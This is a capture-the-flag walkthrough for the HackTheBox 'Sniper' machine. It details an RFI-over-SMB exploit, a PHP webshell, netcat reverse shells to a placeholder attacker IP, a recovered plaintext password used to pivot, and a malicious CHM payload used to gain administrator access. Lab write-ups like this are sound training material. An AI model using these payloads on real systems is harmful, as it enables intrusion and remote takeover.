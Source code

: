 ```yaml
---
title: "HTB: Sniper"
categories:
  - HackTheBox
tags:
  - HackTheBox
---
```


![Sniper](https://pbs.twimg.com/media/EF9WpNKW4AAnQEQ.jpg)

# Sniper

## Initial Foothold

http://sniper.htb/blog/?lang=\\xx.xx.xx.xx\share\test.php is vulnerable to RFI over SMB.

We can set up a SMB server to exploit the RFI here:

Add to the bottom of /etc/samba/smb.conf:

```
[share]
path = /home/xxxx/share
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
```

Then, chmod the directory:

```
chmod 0555 /home/xxxx/share
```

We can use the webshell found at the following github:

https://github.com/WhiteWinterWolf/wwwolf-php-webshell

Now, by visiting http://sniper.htb/blog/?lang=\xx.xx.xx.xx\share\webshell.php we are able to upload file and execute commands!

The first thing we need to do is create a new folder _C:\TEMP_ and upload nc.exe to it.

From here, we are able to run the command:

```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have a shell!

## Pivoting to User

While enumerating, we stumble upon some credentials held in C:\inetpub\wwwroot\user\db.php:

**chris:36mEAhz/B8xQ~2VM**

We can use a switch-shell with Powershell to get a semi-interactive shell:

```
function switch-psuser {

    Param(
        [Parameter(Position=0)]
        [ValidateSet("adminsystem","administrator")]
        $User = "adminsystem"
    )

    switch($User)
    {
        'adminsystem'   { $username = "domain\adminsystem" ; $pw = "yyy"}
        'administrator' { $username = "sniper\chris" ; $pw = "36mEAhz/B8xQ~2VM" }
    }

    $password = $pw | ConvertTo-SecureString -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
    New-PSSession -Credential $cred | Enter-PSSession
}
switch-psuser administrator
```

We can now run nc.exe since this shell can execute commands. However, we need to first grant this user permissions to access it using our webshell:
```
cacls C:\TEMP /e /p chris:f
cacls C:\TEMP\nc.exe /e /p chris:f
```
Now, we can run nc.exe and receive a shell:
```
C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe
```

Voila, we have user!

## Getting Root

We've got a note in C:/Docs that's semi helpful:

```
Hi Chris,
        Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.

Regards,
Sniper CEO.
```
Based on the note, it looks like whatever we drop in C:/Docs might be looked at by the administrator.

Also, in C:\Users\chris\Downloads, there's a file called instructions.chm.

A publically available exploit for chm files is available:

https://gist.github.com/mgeeky/cce31c8602a144d8f2172a73d510e0e7

## Exploiting the CHM for Profit

We first need to unpack the chm file:

```
copy C:\Users\chris\Downloads\instructions.chm C:\TEMP
cd C:\TEMP
hh -decompile extract instructions.chm
cd extract
nc -nv xx.xx.xx.xx 4444 < a.html
```

Now, once we catch this on our machine, we can see what's in the HTML file:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

We can modify the PoC and place it in the body of our file. The end results is:

```
<html>
<body>
<h1>Sniper Android App Documentation</h1>
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=",nc,-nv xx.xx.xx.xx 4444">
 <PARAM name="Item2" value="273,1,1">
</OBJECT>

<SCRIPT>
x.Click();
</SCRIPT>
<h2>Table of Contents</h2>

<p>Pff... This dumb CEO always makes me do all the shitty work. SMH!</p>
<p>I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.</p>
</body>
</html>
```

Now, because we've asked it to call run.bat in our TEMP folder, we need to create a batch script for it to run:

```
echo C:\TEMP\nc.exe -nv xx.xx.xx.xx 4444 -e cmd.exe > C:\TEMP\run.bat
```

From here, we need to create a Project.hpp file to point hh.exe at when we recompile the chm file:

```
[FILES]
<PATH TO FILES>\a.html
```

Now, we copy the Project.hpp file and a.html to a windows machine and run:

```
hhc.exe <PATH TO FILES>\Project.hpp
```

We're given a Project.chm file in the same folder that held Project.hpp. We can copy this over to the victim machine, place it in C:\Docs and wait for it to return a shell to us!

```
C:\>whoami
whoami
sniper\administrator
```

